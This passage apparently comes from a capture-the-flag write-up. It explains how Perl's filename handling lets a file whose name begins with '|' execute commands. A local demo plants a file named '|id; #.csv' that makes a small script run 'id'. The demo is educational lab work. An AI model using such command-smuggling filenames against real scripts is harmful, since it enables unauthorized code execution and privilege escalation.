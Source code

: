 

### Exploit cvsupdate

#### Local Example

Perl's `open` command can, for some crazy reason, be used to execute
code. If a command starts with `|`, then the rest of the command will be
executed, with anything written to the resulting handle being passed to
the executed command's STDIN. If the filename ends with `|`, then the
stuff before is executed, and the output of the execution can be read
from the filehandle.

I'll demonstrate with a silly Perl program that is similar to the one on
PikaBoo:



    #!/usr/bin/perl


    shift;
    for(<>)
    {
      print $_;
    }



I'll create a couple of `.csv` files and run it:



    oxdf@parrot$ echo -e "1\n2\n3" > a.csv 
    oxdf@parrot$ echo -e "a\nb" > b.csv 
    oxdf@parrot$ perl test.pl ignore *.csv
    1
    2
    3
    a
    b



I'll add a file that has a command injection name:



    oxdf@parrot$ touch '|id; #.csv'



It runs the command:



    oxdf@parrot$ perl test.pl ignore *.csv
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(debian-tor),124(bluetooth),140(scanner),153(docker),998(vboxsf)
    1
    2
    3
    a
    b
